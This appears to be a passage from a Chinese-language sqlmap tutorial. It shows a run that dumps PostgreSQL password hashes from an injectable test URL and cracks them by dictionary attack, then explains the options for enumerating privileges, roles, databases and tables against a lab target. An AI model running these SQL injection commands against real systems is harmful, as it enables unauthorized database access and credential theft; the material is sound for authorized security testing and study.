```
$ python sqlmap.py -u "http://********/sqlmap/pgsql/get_int.php?id=1" --passwords -v 1
[...]
back-end DBMS: PostgreSQL
[hh:mm:38] [INFO] fetching database users password hashes
do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt]
[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
do you want to use common password suffixes? (slow!) [y/N] n
[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
password hash: md5d7d880f96044b72d0bba108ace96d1e4
clear-text password: testpass
[*] testuser [1]:
password hash: md599e5ea7a6f7c3269995cba3927fd0093
clear-text password: testpass
```

可以看到 sqlmap 不仅勒出数据库的用户跟密码，同时也识别出是 PostgreSQL 数据库，并询问用户是否采用字典爆破的方式进行破解，

这个爆破已经支持`Oracle`和`Microsoft SQL Server`。

也可以提供-U 参数来指定爆破哪个用户的`hash`。

**列出数据库管理员权限**

参数：`–privileges`

当前用户有权限读取包含所有用户的表的权限时，很可能列举出每个用户的权限，sqlmap 将会告诉你哪个是数据库的超级管理员。

也可以用-U 参数指定你想看哪个用户的权限。

**列出数据库管理员角色**

参数：`–roles`

当前用户有权限读取包含所有用户的表的权限时，很可能列举出每个用户的角色，也可以用-U 参数指定你想看哪个用户的角色。

仅适用于当前数据库是`Oracle`的时候。

**列出数据库系统的数据库**

参数：`–dbs`

当前用户有权限读取包含所有数据库列表信息的表中的时候，即可列出所有的数据库。

**列举数据库表**

参数：`–tables,–exclude-sysdbs,-D`

当前用户有权限读取包含所有数据库表信息的表中的时候，即可列出一个特定数据的所有表。

```
sqlmap -u "http://192.168.163.138/mutillidae/index.php?page=user-info.php&username=111&password=12123&user-info-php-submit-button=View+Account+Details"
--tables -D dvwa
```
